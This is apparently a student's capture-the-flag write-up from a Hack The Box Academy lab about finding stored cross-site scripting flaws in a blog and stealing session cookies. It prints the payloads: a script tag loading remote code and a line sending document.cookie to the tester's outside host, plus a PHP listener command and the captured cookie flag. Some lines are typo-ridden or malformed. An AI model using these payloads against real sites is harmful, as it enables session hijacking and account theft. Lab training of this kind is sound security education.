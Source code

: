 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:

1. Identify a user-input field that is vulnerable to an XSS vulnerability.
2. Flag a working XSS payload that execute JS copde on the target.
3. Session hijacking tecniques.


We can detect the 2 XSS injections

1. [http://10.129.90.135/assessment/index.php/2021/06/11/welcome-to-security-blog/]

2. [http://10.129.90.135/assessment/index.php/author/xss/]

Firt we must ti identify the XSS payload.
we can try with paste the XSS:
```js
<script src="http://10.10.14.106/script.js"></script>
// And sniffing the traffic with the php
sudo php -S 0.0.0.0:80
// Then change the the code js:
new Image().src='http://10.10.14.106:8080/index.php?c='+document.cookie
// And try the XSS
"><script src="http://10.10.14.106:8080/index.php></script>
```
And we GET the Flag:
GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1743066256;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
https://academy.hackthebox.com/achievement/349590/103
